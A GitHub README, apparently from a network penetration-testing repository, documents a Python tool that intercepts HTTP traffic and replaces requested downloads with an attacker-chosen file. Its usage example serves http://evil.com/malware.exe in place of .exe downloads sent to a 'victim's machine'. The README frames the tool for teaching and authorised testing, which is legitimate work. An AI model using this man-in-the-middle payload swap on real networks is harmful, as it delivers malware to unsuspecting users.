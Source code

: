 
# Replace Downloads Tool

The **Replace Downloads Tool** is a Python script designed for intercepting HTTP responses and replacing requested file downloads with a specified file or URL. This tool can be used for educational purposes and ethical hacking scenarios to demonstrate the potential security risks of downloading files from untrusted sources.

**Disclaimer:** This tool should only be used for educational purposes and with proper authorization. Unauthorized use is strictly prohibited.

## Features

- Intercepts HTTP responses containing requested file downloads.
- Replaces the requested file with a specified file or URL.
- Can be used for educational purposes and ethical hacking teaching.

## Prerequisites

Ensure you have the following prerequisites installed on your system:

- Python 3
- Required Python libraries: `argparse`, `subprocess`, `sys`, `time`, `functools`, `netfilterqueue`, `scapy`, `colorama`, `halo`

## Usage

### Installation

1. Clone the repository or download the `replace_downloads.py` file to your local machine.
    
2. Open a terminal and navigate to the directory containing the script.
    
3. Install the required dependencies by running:
 ```bash
pip install -r requirements.txt
```


### Execution

Execute the script using the following command:
```bash
python replace_downloads.py -l <local_mode> -i <interface> -x <file_extension> --payload <replacement_file_or_url> --port <listening_port>
```

- `<local_mode>`: Use `-l` or `--local` if you are testing on your local machine or when using [bettercap].
    
- `<interface>`: The network interface you want to use in the attack.
    
- `<file_extension>`: The file extension of the file you want to replace in the response (e.g., `.exe`, `.zip`).
    
- `--payload`: The payload you want to inject, which can be a file path or a URL.
    
- `--port`: The port number on which you will listen and transmit packets (e.g., `8080` if you are using [bettercap]).
    

**Important:** This tool requires root privileges to manipulate network packets, so ensure that you run it with appropriate permissions.

### Example
```bash
python replace_downloads.py -l -i eth0 -x .exe --payload http://evil.com/malware.exe --port 8080
```

### Workflow

1. The tool intercepts HTTP responses containing requested file downloads.
    
2. It identifies the requested file based on the provided file extension.
    
3. The requested file is replaced with the specified payload (file or URL).
    
4. The modified response is forwarded to the victim's machine.
    

## Important Note

This tool should only be used for educational purposes and with proper authorization. Unauthorized use is strictly prohibited. The developer is not responsible for any misuse or damage caused by this tool.


## See Also

- [ARP Spoofing Tool](https://github.com/Saalehh/Networks-Penetration-Testing/tree/main/ARP%20Spoofing%20Tool "ARP Spoofing Tool")
- [ARP Spoofing Detection Tool](https://github.com/Saalehh/Networks-Penetration-Testing/tree/main/ARP%20Spoofing%20Detection%20Tool)
- [DNS Spoofing Tool](https://github.com/Saalehh/Networks-Penetration-Testing/tree/main/DNS%20Spoofing%20Tool)
- [HTTP Packet Sniffing Tool](https://github.com/Saalehh/Networks-Penetration-Testing/tree/main/HTTP%20Packet%20Sniffing%20Tool)

